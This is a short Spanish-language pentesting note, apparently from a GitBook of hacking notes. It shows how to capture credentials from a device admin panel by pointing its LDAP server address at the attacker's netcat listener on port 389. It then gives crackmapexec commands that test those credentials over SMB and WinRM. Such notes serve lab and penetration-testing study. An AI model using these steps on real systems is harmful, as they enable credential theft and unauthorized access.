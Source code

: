 > EJEMPLO

<figure><img src="../.gitbook/assets/note1.png" alt=""><figcaption></figcaption></figure>

Pongamos que tenemos ese panel con las credenciales y donde pone `Server Address` lo cambiamos por nuestra `IP` y estando a la escucha...

```shell
nc -lvnp <PORT>
```

En este caso seria por el puerto `389`...

```shell
nc -lvnp 389
```

Y enviamos la solicitud en este caso dandole a `Update` nos llegara esa peticion y podremos ver las credenciales...

<figure><img src="../.gitbook/assets/note2.png" alt=""><figcaption></figcaption></figure>

### crackmapexec \[Authenticated]

Si tenemos unas credenciales que pueden ser validas las probamos con la siguiente herramienta al puerto de `smb`...

```shell
crackmapexec smb <IP> -u '<USER>' -p '<PASSWORD>'
```

Si nos salta con un resultado `[+]` y despues las credenciales separadas por `:` es que las credenciales son correctas, si no, serian incorrectas...

Para comprobar si definitivamente nos podemos conectar a la maquina con esas credenciales, probaremos el siguiente comando, que es solamente sustituyendo el parametro `smb` por el de `winrm`...

```shell
crackmapexec winrm <IP> -u '<USER>' -p '<PASSWORD>'
```
